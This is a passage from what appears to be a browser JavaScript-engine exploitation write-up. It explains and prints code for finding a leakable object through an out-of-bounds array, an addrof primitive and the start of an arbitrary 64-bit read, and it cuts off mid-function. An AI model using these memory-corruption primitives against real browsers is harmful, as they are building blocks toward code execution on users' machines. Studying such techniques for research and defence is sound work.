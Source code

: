 ```js
                    int_aux[0] == 0x44444444;
                }
                else{
                    int_aux[1] = 0x44444444;
                }
                OOB[i] = float_aux[0];

                for(let j=0; j<objarr.length; j++){
                    if(objarr[j].findme != 0x11111111){
                        leak_obj = objarr[j];
                        marker = i;
                        print("Found the leakable object. ");
                        break;
                    }
                }
                if(marker != -1){
                    break;
                }
            }
        }
```

We create our standard addrof primitive. Which would put the object of which we need to leak the address. then from the `OOB`, we can get its address.
```js
        print("Achieved addrof primitive.")
        function addrof(obj){
            leak_obj.a = obj;
            leak_obj.b = obj;

            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);

            float_aux[0] = OOB[marker - 1];

            if(int_aux[0] != int_aux[1]){
                int_aux[0] = int_aux[1];
            }

            let res = BigInt(int_aux[0]);
            return res;
        }
```

We have this kind of a structure where we check if the `int_aux[0] == 0x44444444` because sometimes the stack can be aligned differently because of the pointer compression. Hence in-order for us to know if its the higher/ lower 32 bits we use this special identifier.
```js
        print("Achieved Arbitrary Read.");
        function read64(addr){
            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);

            float_aux[0] = OOB[marker];

            let save, ret;
            if(int_aux[0] == 0x44444444){
                save = float_aux[0];
                int_aux[1] = Number(addr-4n);
                OOB[marker] = float_aux[0];
            }
            else{
```